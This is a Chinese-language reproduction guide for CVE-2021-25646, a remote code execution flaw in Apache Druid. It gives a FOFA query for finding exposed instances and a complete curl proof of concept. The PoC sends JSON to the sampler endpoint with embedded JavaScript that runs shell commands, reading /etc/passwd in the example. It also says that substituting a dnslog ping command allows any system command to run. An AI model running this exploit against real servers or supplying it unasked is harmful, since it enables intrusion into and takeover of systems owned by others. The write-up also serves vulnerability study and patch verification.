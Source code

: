 # CVE-2021-25646：Apache Druid RCE复现
## 漏洞描述
Druid不仅是一个数据库连接池，还包含一个ProxyDriver、一系列内置的JDBC组件库、一个SQL Parser。

支持所有JDBC兼容的数据库，包括Oracle、MySql、Derby、Postgresql、SQL Server、H2等。

Apache Druid 包括执行用户提供的 JavaScript 的功能嵌入在各种类型请求中的代码。此功能在用于高信任度环境中，默认已被禁用。但是，在 Druid 0.20.0 及更低版本中，经过身份验证的用户可以构造传入的json串来控制一些敏感的参数发送恶意请求，利用 Apache Druid 漏洞可以执行任意代码。

## 影响范围
Apache Druid < 0.20.1

## fofa查询
title=”Apache Druid”

## 漏洞复现
漏洞存在页面 /druid/indexer/v1/sampler
poc
```
curl 'http://localhost:8999/druid/indexer/v1/sampler'   -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,/;q=0.8,application/signed-exchange;v=b3;q=0.7'   -H 'Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7'   -H 'Cache-Control: max-age=0'   -H 'Connection: keep-alive'   -H 'Content-Type: application/json'   -H 'Cookie: __test=1; NX-ANTI-CSRF-TOKEN=0.8360088289838903; NXSESSIONID=17a32903-e525-4152-ad20-8a987b128e1c; _xsrf=2|830220c5|0a4a1cc886ae17d5fc8486a8e5981fbf|1723095938; TCSESSIONID=CEE828A802BE7DE6251BB5CE364846FE; rc_uid=4A875bRbFS22nm8dQ; rc_token=YXPeS46wdkxA8HlK8Wt8AyvSGv74cYuVSRxN7MIAQdd; OFBiz.Visitor=10000'   -H 'Origin: http://localhost:8999'   -H 'Referer: http://localhost:8999/druid/indexer/v1/sampler'   -H 'Sec-Fetch-Dest: document'   -H 'Sec-Fetch-Mode: navigate'   -H 'Sec-Fetch-Site: none'   -H 'Upgrade-Insecure-Requests: 1'   -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36 Edg/127.0.0.0'   -H 'sec-ch-ua: "Not)A;Brand";v="99", "Microsoft Edge";v="127", "Chromium";v="127"'   -H 'sec-ch-ua-mobile: ?0'   -H 'sec-ch-ua-platform: "Windows"'   -H 'sec-fetch-user: ?1'   --data-raw $'{"type":"index","spec":{"ioConfig":{"type":"index","firehose":{"type":"local","baseDir":"/etc","filter":"passwd"}},"dataSchema":{"dataSource":"test","parser":{"parseSpec":{"format":"javascript","timestampSpec":{},"dimensionsSpec":{},"function":"function(){var a = new java.util.Scanner(java.lang.Runtime.getRuntime().exec([\\"sh\\",\\"-c\\",\\"cat /etc/passwd\\"]).getInputStream()).useDelimiter(\\"\\\\A\\").next();return {timestamp:123123,test: a}}","":{"enabled":"true"}}}}},"samplerConfig":{"numRows":10}}\r\n'
```
通过修改post包中的’ping kyp0m6.dnslog.cn’ 可以执行任意系统命令